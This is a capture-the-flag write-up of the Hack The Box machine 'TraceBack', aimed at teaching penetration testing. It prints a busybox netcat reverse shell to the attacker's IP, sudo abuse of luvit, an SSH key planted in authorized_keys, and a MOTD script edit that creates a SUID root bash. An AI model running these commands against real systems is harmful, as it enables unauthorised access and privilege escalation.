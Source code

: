 # HTB - TraceBack

##### Ip: 10.129.245.136
##### Name: TraceBack
##### Rating: Easy

------------------------------------------------

TraceBack.png

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/TraceBack]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.245.169
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-09 13:11 CST
Nmap scan report for 10.129.245.169
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

Looking at the site on port 80 we find:

htb_traceback_site.png

After several failed directory fuzzing attempts using my go-to wordlists in attempt to find the webshell mentioned, I decided to try a wordlist from SecLists for common backdoors and got a hit:

htb_traceback_dir.png

Navigating to the directory we find a login:

htb_traceback_backdoor.png

Luckily for us we can successfully authenticate using `admin:admin`

htb_traceback_in.png

### Exploitation

Clicking on the console tab we find we can execute commands:

htb_traceback_whoami


Let's issue a reverse shell oneliner to catch a reverse shell:
```
busybox nc 10.10.14.166 443 -e /bin/bash
```

This catches us a shell back in our listener as user webadmin:

```
┌──(ryan㉿kali)-[~/HTB/TraceBack]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.166] from (UNKNOWN) [10.129.245.169] 45538
id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
hostname
traceback
python3 -c 'import pty;pty.spawn("/bin/bash")'
webadmin@traceback:/var/www/html$ ls
ls
bg.jpg  index.html  smevk.php
```

Looking in the webadmin user's home directory we find a note:

```
webadmin@traceback:/home/webadmin$ ls
note.txt
webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$ cd ..
webadmin@traceback:/home$ cd sysadmin
bash: cd: sysadmin: Permission denied
```

So looks like we'll need to find a way to move laterally to the sysadmin user here in order to get the first flag.

Running `sudo -l` we find:

```
webadmin@traceback:/home$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can use this to execute system commands as the user sysadmin using the `os.execute` command in luvit:

htb_traceback_bash.png

We can now grab the first flag:

htb_traceback_user.png

### Privilege Escalation

Loading linpeas onto the target we find:

htb_traceback_lp.png

These are writable message of the day files, which are triggered when a user SSH's into the machine.

We'll need to take a couple steps to exploit this.

First, because we don't have any credentials, we'll need to generate some SSH keys to use to trigger our malicious MOTD.

```
sysadmin@traceback:~$ cd .ssh
sysadmin@traceback:~/.ssh$ ls -la
total 8
drwxr-xr-x 2 root     root     4096 Apr 20  2021 .
drwxr-x--- 5 sysadmin sysadmin 4096 Jan  9 11:41 ..
-rw-r--r-- 1 sysadmin sysadmin    0 Apr 20  2021 authorized_keys
```

I can't directly create the keys in `/.ssh` but I can create them in `/tmp` and move them:

```
sysadmin@traceback:~/.ssh$ ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Saving key "id_rsa" failed: Permission denied
sysadmin@traceback:~/.ssh$ cd /tmp
sysadmin@traceback:/tmp$ ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:KV+ubpSAU9ZvsNMTnzQDrkNKRSs8PxWHvmdMTX1FuUI sysadmin@traceback
The key's randomart image is:
+---[RSA 2048]----+
|       oo oo.  o=|
|     .o.oooo+E..o|
|     += o*o+.*  o|
|    o..*o+* +... |
|     .o.S+.=  .  |
|       oo=. +    |
|       .. .o     |
|        ..       |
|       oo        |
+----[SHA256]-----+
sysadmin@traceback:/tmp$ cat id_rsa.pub > /home/sysadmin/.ssh/authorized_keys
sysadmin@traceback:/tmp$ cat id_rsa     
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApMCpMZZsd0acMP9dOfQ1NeYowvTiagqXWcEOF1OE4yBDVsG6
/uPTY+YYXk+vD0dtSMiWhdYfDFwsk6ZbZH0STAbNkCayFH0ATkZMczFtLTWz5ihG
RszhFyI0NxcNSgfW+cZZhD6MOjggE6vMTxPmu7/fhcUoFUIjaYxqu+7KNo0LD9c0
hDrS2ozLcCWz3HJ0FXSXevARpkyMexRow4tPMxDHPKO1EhtvK+ydK9jug9Aom4jO
/boIaPrpVp40y5moLWNenu8CKAmqhwULbAJhpOV5EcYqy3yX8eSZhE+t52lye/KS
VJZhEks4PO4UJCdKRsRwhUvmDwa6usFKFmUWDwIDAQABAoIBADdF172mLL+bdd1O
XxWJY6ywie5WP/u5j+txxGt4/rVAZrcdicHn50y1rmk9rIqguP5ZJX7DRmlcJyxl
/HVrLI9LHP4GrWoIQekA1rcy1uD7Cl7mFiW8qKudMw1kc3XpyWrE69VdMqh5mfFf
<SNIP>
```

I can then copy the id_rsa to my kali box, change modes on it, and verify it works:

```
┌──(ryan㉿kali)-[~/HTB/TraceBack]
└─$ ssh -i id_rsa sysadmin@10.129.245.169
The authenticity of host '10.129.245.169 (10.129.245.169)' can't be established.
ED25519 key fingerprint is SHA256:t2eqwvH1bBfzEerEaGcY/lX/lrLq/rpBznQqxrTiVfM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.245.169' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ hostname
traceback
```

Cool, now that we've done that we need to overwrite the MOTD to something of our own.

Then, back in our shell we can run:

```
echo "cp /bin/bash /tmp/bash && chmod u+s /tmp/bash" >> /etc/update-motd.d/00-header
```

And SSH in again and navigate to `/tmp` and run `./bash -p`:

```
┌──(ryan㉿kali)-[~/HTB/TraceBack]
└─$ ssh -i id_rsa sysadmin@10.129.245.169
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jan  9 12:34:32 2025 from 10.10.14.166
$ cd /tmp
$ ./bash -p
bash-4.4# whoami
root
bash-4.4# hostname
traceback
```

Nice, that worked.

We can now grab the final flag:

htb_traceback_root.png

Thanks for following along!

-Ryan

----------------------------------




